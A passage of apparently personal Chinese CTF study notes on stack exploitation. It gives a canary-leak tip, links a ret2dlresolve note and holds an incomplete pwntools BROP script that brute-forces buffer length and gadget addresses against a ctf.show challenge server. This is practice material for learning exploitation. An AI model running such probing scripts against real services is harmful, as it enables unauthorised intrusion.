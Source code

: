 收获：

- `canary`以`\x00`结尾，目的是为了隔离字符串，但是我们如果可以直接将字符串写到canary的末尾，就可以泄露`canary`，用这个`canary`的值重新写回，来构造payload

## ret2dlresolve

[【ret2dlresolve】学习和体会](Stack%2095229ecbb2f1486a9533db3b1ce3a54d/%E3%80%90ret2dlresolve%E3%80%91%E5%AD%A6%E4%B9%A0%E5%92%8C%E4%BD%93%E4%BC%9A%20dd7da26e1a564d8ab96be08417894fa9.md)

## BROP

```python
from pwn import *
from LibcSearcher import *

import logging
#context.log_level  = 'debug'
port = 28158
buf_size = 72
stop_addr = 0x400728
brop_addr = 0x40083a
puts_plt = 0x400550
pop_rdi = brop_addr +0x9
i = 0x400730

def getBuflen():
    i = 5
    while 1:
        sh = remote("pwn.challenge.ctf.show",port)
        sh.recvuntil("daniu?\n")
        sh.send(b'a'*i)
        data = sh.recv()
        if not data.startswith(b"No passwd"):
            return i -1
        else:
            i = i+1
        sh.close()

def getGadgetAddr(stacklen):
    addr = 0x400700

    while 1:
        try:
            sh = remote("pwn.challenge.ctf.show",port)
            sh.recvuntil("daniu?\n")
            payload = b'a'*stacklen+p64(addr)
            sh.send(payload)
            data = sh.recv()
            if not data.startswith(b"Welcome to CTFshow-PWN !"):
                sh.close()
                addr +=1
            else:
                return addr 
        except EOFError:
            sh.close()
            addr +=1
            print("bad :0x%x" % addr)
        except:
            log.info("can't connect")
            addr -= 1
            

def get_gadgets_addr(buf_size, stop_addr):
    addr = stop_addr
```